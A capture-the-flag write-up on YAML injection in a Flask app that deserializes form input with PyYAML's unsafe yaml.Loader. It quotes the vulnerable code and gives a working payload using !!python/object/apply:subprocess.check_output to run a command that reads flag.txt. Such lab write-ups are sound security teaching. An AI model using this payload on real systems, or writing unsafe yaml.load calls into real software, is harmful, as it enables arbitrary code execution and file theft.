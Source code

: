# 🛡️ Challenge Writeup — YAML Injection

> **Author:** s0ufm3l
---

## 📜 Challenge Description

We are given a Flask web application with the following important part:

```python
config = request.form.get("config", "")
try:
    data = yaml.load(config, Loader=yaml.Loader)
    output = str(data)
except Exception as e:
    output = f"Error parsing YAML: {e}"
```
The user input config is parsed directly using yaml.load with yaml.Loader.

## 📥 Code Analysis

The vulnerable line is:

```python
data = yaml.load(config, Loader=yaml.Loader)
```
yaml.load without SafeLoader is dangerous because it can deserialize arbitrary Python objects.

If the user provides a malicious YAML input, it can execute functions or create objects.

### 🧠 Exploitation Strategy

Using PyYAML's object deserialization, you can:

    Execute arbitrary Python functions

    Run system commands

    Read files (like flag.txt)

One common primitive is using:

```less
!!python/object/apply:some_function [arguments]
```
Which tells PyYAML to call a Python function with the given arguments.

### 🚀 Exploit Payload

!!python/object/apply:subprocess.check_output [["cat", "flag.txt"]]

How it works:

    !!python/object/apply:subprocess.check_output → calls the subprocess.check_output function.

    [["cat", "flag.txt"]] → passes the command cat flag.txt as a list of arguments.

    This reads the contents of flag.txt and returns it.